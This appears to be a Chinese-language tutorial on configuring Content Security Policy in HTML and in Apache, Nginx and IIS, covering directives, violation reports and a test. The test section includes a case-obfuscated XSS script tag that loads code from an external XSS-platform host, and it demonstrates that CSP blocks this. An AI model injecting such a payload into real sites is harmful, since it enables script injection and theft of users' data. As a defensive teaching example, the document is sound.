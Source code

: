 # 关于CSP
> 内容安全策略   (CSP) 是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 (XSS) 和数据注入攻击等。无论是数据盗取、网站内容污染还是散发恶意软件，这些攻击都是主要的手段。(摘自MDN web docs)

个人理解就是一种执行在浏览器端的页面安全策略，通过设置白名单允许页面内容来自指定的源，比如验证js脚本的来源来消除来自其他源的js脚本加载，这样就能防止xss远程加载js脚本。

# 相关配置
两种
## 直接在html页面中添加
示例：
```
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
```
## 配置服务器，使其在响应头添加
- Apache
在VirtualHost的httpd.conf文件或者.htaccess文件中加入以下代码
```
Header set Content-Security-Policy "default-src 'self';"
```
- Nginx
在 server {}对象块中添加如下代码
```
add_header Content-Security-Policy "default-src 'self';";
```
- IIS 
web.config:中添加
```
<system.webServer>

  <httpProtocol>

    <customHeaders>

      <add name="Content-Security-Policy" value="default-src 'self';" />

    </customHeaders>

  </httpProtocol>

</system.webServer>
```
这样response 头里面就会有Content-Security-Policy: 标签
```
Content-Security-Policy: script-src 'self'; object-src 'none';style-src cdn.example.org third-party.org; child-src https:
```

# 关于csp的语法（简单介绍）

## 默认限制
> 什么都不会就直接上一个默认限制就行了,例如`Content-Security-Policy: default-src 'self'`限制资源只能从本地加载，不管是js，还是图片，都只能从本地加载

## 详细的资源加载限制(摘自[知乎:阿里聚安全](https://www.zhihu.com/question/21979782/answer/122682029))
> 可以对每种资源进行详细的加载限制
- `script-src` 外部脚本加载限制
- `style-src` 样式表
- `img-src` 图像
- `media-src` 音频视频的加载
- `font-src` 字体文件
- `object-src`插件（比如 Flash）
- `child-src`框架
- `frame-ancestors`嵌入的外部资源（比如\<frame\>、\<iframe\>、\<embed\>和\<applet\>）
- `connect-src`HTTP 连接（通过 XHR、WebSockets、EventSource等）
- `worker-src` worker脚本
- `manifest-src` manifest 文件
> url相关
- `frame-ancestors` 限制嵌入框架的网页
- `base-uri` 限制 `<base#href>`
- `form-action` 限制 `<form#action>`
> 其他其他安全相关
- `block-all-mixed-content`：HTTPS 网页不得加载 HTTP 资源（浏览器已经默认开启）
- `upgrade-insecure-requests`：自动将网页上所有加载外部资源的 HTTP 链接换成 HTTPS 协议 相关类似的还有[HTTP Strict Transport Security](https://developer.mozilla.org/zh-CN/docs/Security/HTTP_Strict_Transport_Securityv)
- `plugin-types`：限制可以使用的插件格式
- `sandbox`：浏览器行为的限制，比如不能有弹出窗口等。

## 将违例内容进行反馈报告
> 需要在CSP规则中写明report-uri策略，然后参数中有一个地址接收这些报告，报告格式是json
大概写法事这个样子拿apache配置为例
```
Header set Content-Security-Policy "default-src 'self';report-uri http://12.12.12.12:7777"
```
返回的json大概如下：
```
{
    "csp-report":{
        "document-uri":"http://hhhhh.com/",
        "referrer":"",
        "violated-directive":"script-src-elem",
        "effective-directive":"script-src-elem",
        "original-policy":"default-src 'self';report-uri http://12.12.12.12:7777",
        "disposition":"enforce",
        "blocked-uri":"https://xss.pt/XUXds",
        "status-code":200,
        "script-sample":""
    }
}
```

# 测试
- 配置虚拟主机
```
<VirtualHost 12.12.12.12:80>
  DocumentRoot "/var/www/ipv4"
  ServerName    hhhhh.com
</VirtualHost>
Header set Content-Security-Policy "default-src 'self';"
```
重启apache服务，查看响应头是否含有Content-Security-Policy： default-src 'self';
- 到页面中加载远程脚本
<sCRiPt sRC=https://xss.pt/XUXdj></sCrIpT>
- 然后这时浏览器就会报错
 比如chrome：
```
Refused to load the script 'https://xss.pt/XUXdj' because it violates the following Content Security Policy http://hhhhhh.com directive: "default-src 'self'". Note that 'script-src-elem' was not explicitly set, so 'default-src' is used as a fallback.
```

相关文档：
- [MDN_web_docs-内容安全策略( CSP )](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)
- [知乎-Content Security Policy (CSP) 是什么？为什么它能抵御 XSS 攻击？](https://www.zhihu.com/question/21979782)
- [MDN_web_docs-HTTP Strict Transport Security](https://developer.mozilla.org/zh-CN/docs/Security/HTTP_Strict_Transport_Security)
